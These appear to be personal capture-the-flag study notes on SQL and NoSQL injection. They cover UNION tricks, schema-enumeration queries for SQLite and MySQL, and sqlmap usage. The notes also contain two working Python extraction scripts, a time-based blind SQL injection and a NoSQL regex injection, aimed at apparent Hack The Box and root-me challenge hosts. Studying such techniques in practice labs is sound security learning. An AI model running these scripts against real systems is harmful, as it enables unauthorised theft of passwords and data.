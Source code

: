 # SQL Injection
## 1. SQL
### 1.1. Overview
- syntax to comment: `--`, `/* */`, ...
- union: 
```
SELECT column_name(s) FROM table1 -> clause 1
UNION
SELECT column_name(s) FROM table2 -> clause 2
```
-> when clause 1 fail, will execute clause 2
- group_concat: string concatenation

### 1.2. Sqlite
- `select sql from sqlite_master`
-> show schema

### 1.3. Mysql
`select table_name from information_schema.tables where table_schema=database()`
-> show name of tables
`select column_name from information_schema.columns where table_name=table_name`
-> show columns name of that table

### 1.4. Cheetsheet 
`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection`

## 2. Attack
### 2.1. SQL injection boolean
- injection to query to bypass 

### 2.2. SQL injection blind
- base on response as like as error, timeout to collect data
example:
```
import requests, string, time
arr = "_}"+ string.digits+ string.ascii_letters  + string.punctuation
s = requests.session()
url = 'http://188.166.173.208:30042/api/list'

def bind(step):
    for char in arr:
        a = time.time()
        s.post(url,data={'order':f"(select case when (select ascii(mid((select password from users  where username='flagholder'),{step},1))) LIKE {ord(char)} then sleep(0.6) else 1 end)"})
        b = time.time()
        if b-a > 4:
            return char
    return None        

def flag():
    flag = 'HTB{'
    step = len(flag) + 1 
    while True:
        c = bind(step)
        if c==None or c=='}':
            return flag + c
            
        flag += c 
        step += 1
        print('[+] flag = ',flag)

print('[+] flag = ',flag())
```

### 2.3. Nosql injection
```
import requests, string
arr = string.digits + string.ascii_letters + "_@{}-/()!\"$%=^[]:;"
req = requests.session()

def countchar() -> int:
    for i in range(2,50):
        res = req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=%s'%(i*'.')).text
        if 'This is not a valid flag for the'  in res:    
            return i 

def findpassword( n : int) -> str:
    password = ''
    for _ in range(n):
        for c in arr:
            if 'Yeah this is the flag for' in req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=^' + password + c).text:
                print('[+] ',password)
                password += c
                break
    return password


n = countchar()
print('length password ',n)
print(findpassword(n))
```
### 2.4. Tool sqlmap
- install: `brew install sqlmap`
- use: `sqlmap -r file_request --batch -D database --tables`
